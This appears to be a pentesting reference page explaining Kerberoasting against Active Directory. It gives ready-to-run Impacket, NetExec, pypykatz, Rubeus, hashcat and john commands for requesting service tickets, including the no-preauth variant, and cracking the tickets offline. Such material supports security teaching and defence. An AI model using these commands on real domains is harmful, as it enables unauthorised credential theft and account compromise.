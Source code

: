 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1558.003
authors: BlWasp, Lamber-maybe, ShutdownRepo, amirr0r, mpgn, sckdev
category: ad
---
```


# Kerberoast

## Theory

When asking the KDC (Key Distribution Center) for a Service Ticket (ST), the requesting user needs to send a valid TGT (Ticket Granting Ticket) and the service name (`sname`) of the service wanted. If the TGT is valid, and if the service exists, the KDC sends the ST to the requesting user.

Multiple formats are accepted for the `sname` field: servicePrincipalName (SPN), sAMAccountName (SAN), userPrincipalName (UPN), etc. (see [Kerberos tickets](./#tickets) "cname formats").

The ST is encrypted with the requested service account's NT hash. If an attacker has a valid TGT and knows a service (by its SAN or SPN), he can request a ST for this service and crack it offline later in an attempt to retrieve that service account's password.

In most situations, services accounts are machine accounts, which have very complex, long, and random passwords. But if a service account, with a human-defined password, has a SPN set, attackers can request a ST for this service and attempt to crack it offline. **This is Kerberoasting**.

## Practice

> [!IMPORTANT]
> Unlike [ASREProasting](asreproast.md), this attack can only be carried out with a prior foothold (valid domain credentials), except in the [Kerberoasting without pre-authentication](kerberoast.md#kerberoast-w-o-pre-authentication) scenario.

::: tabs

=== UNIX-like

The [Impacket](https://github.com/SecureAuthCorp/impacket) script [GetUserSPNs](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) (Python) can perform all the necessary steps to request a ST for a service given its SPN (or name) and valid domain credentials.

> [!TIP]
> The Kerberoasting attack can be conducted without knowing any SPN of the target account, since a service ticket can be request for as long as the service's SAN (`sAMAccountName`) is known. ([swarm.ptsecurity.com](https://swarm.ptsecurity.com/kerberoasting-without-spns/))
> 
> Nota bene, Kerberos can deliver service tickets even if the service has no SPN at all, but then the service's SAN must end with `$`, and in this case it's hard to know for sure if the service's password is defined by a human. Kerberoast attacks usually target user accounts with at least one SPN (`servicePrincipalName`) since they probably have human-defined passwords (sources: [Twitter](https://twitter.com/SteveSyfuhs/status/1613956603807690753) and [\[MS-KILE\] section 3.3.5.1.1](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-kile/a7ad31b0-37a4-4344-b9a7-01d4d086097e)).

```bash
# with a password
GetUserSPNs.py -outputfile kerberoastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'

# with an NT hash
GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'
```

This can also be achieved with [NetExec](https://github.com/Pennyw0rth/NetExec) (Python).

```bash
netexec ldap $TARGETS -u $USER -p $PASSWORD --kerberoasting kerberoastables.txt --kdcHost $KeyDistributionCenter
```

Using [pypykatz](https://github.com/skelsec/pypykatz/wiki/Kerberos-spnroast-command) (Python) it is possible to request an RC4 encrypted ST even when AES encryption is enabled (and if RC4 is still accepted of course). The tool features an -e flag which specifies what encryption type should be requested (default to 23, i.e. RC4). Trying to crack `$krb5tgs$23` takes less time than for `krb5tgs$18`.

```bash
pypykatz kerberos spnroast -d $DOMAIN -t $TARGET_USER -e 23 'kerberos+password://DOMAIN\username:Password@IP'
```


=== Windows

[Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used for that purpose.


```powershell
Rubeus.exe kerberoast /outfile:kerberoastables.txt
```


:::


[Hashcat](https://github.com/hashcat/hashcat) and [JohnTheRipper](https://github.com/magnumripper/JohnTheRipper) can then be used to try [cracking the hash](../credentials/cracking.md).

```bash
hashcat -m 13100 kerberoastables.txt $wordlist
```

```bash
john --format=krb5tgs --wordlist=$wordlist kerberoastables.txt
```

### Kerberoast w/o pre-authentication

In September 2022, [Charlie Cark](https://twitter.com/exploitph) explained how Service Tickets could be obtained through `AS-REQ` requests (which are usually used for TGT requests), instead of the usual `TGS-REQ`. He demonstrated (and [implemented](https://github.com/GhostPack/Rubeus/pull/139)) how to abuse this in a Kerberoasting scenario.

If an attacker knows of an account for which pre-authentication isn't required (i.e. an [ASREProastable](asreproast.md) account), as well as one (or multiple) service accounts to target, a Kerberoast attack can be attempted without having to control any Active Directory account (since pre-authentication won't be required).

::: tabs

=== UNIX-like

The [Impacket](https://github.com/SecureAuthCorp/impacket) script [GetUserSPNs](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) (Python) can perform all the necessary steps to request a ST for a service given its SPN (or name) and valid domain credentials.

_At the time of writing, Sept. 28th 2022,_ [_the pull request (#1413)_](https://github.com/SecureAuthCorp/impacket/pull/1413) _adding the `-no-preauth` option for `GetUserSPNs.py` is pending._


```bash
GetUserSPNs.py -no-preauth "bobby" -usersfile "services.txt" -dc-host "DC_IP_or_HOST" "DOMAIN.LOCAL"/
```



```
srv01
cifs/srv02.domain.local
cifs/srv02
```



=== Windows

[Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used for that purpose.

_At the time of writing, Sept. 28th 2022,_ [_the pull request (#139)_](https://github.com/GhostPack/Rubeus/pull/139) _adding the `/nopreauth` option for Rubeus' `kerberoast` command is pending._


```powershell
Rubeus.exe kerberoast /outfile:kerberoastables.txt /domain:"DOMAIN.LOCAL" /dc:"DC01.DOMAIN.LOCAL" /nopreauth:"nopreauth_user" /spn:"target_service"
```


:::


### Targeted Kerberoasting

If an attacker controls an account with the rights to add an SPN to another ([`GenericAll`](../dacl/#genericall), [`GenericWrite`](../dacl/#genericwrite)), it can be abused to make that other account vulnerable to Kerberoast (see [exploitation](../dacl/targeted-kerberoasting.md)).

> [!TIP]
> Controlling a member of the [Account Operators](../builtins/security-groups) group, targeted Kerberoasting can be conducted for the whole domain (see [exploitation](../dacl/targeted-kerberoasting.md)).

## Resources

[https://en.hackndo.com/kerberos](https://en.hackndo.com/kerberos)

[https://adsecurity.org/?p=2011](https://adsecurity.org/?p=2011)

[https://www.semperis.com/blog/new-attack-paths-as-requested-sts/](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/)

[https://swarm.ptsecurity.com/kerberoasting-without-spns/](https://swarm.ptsecurity.com/kerberoasting-without-spns/)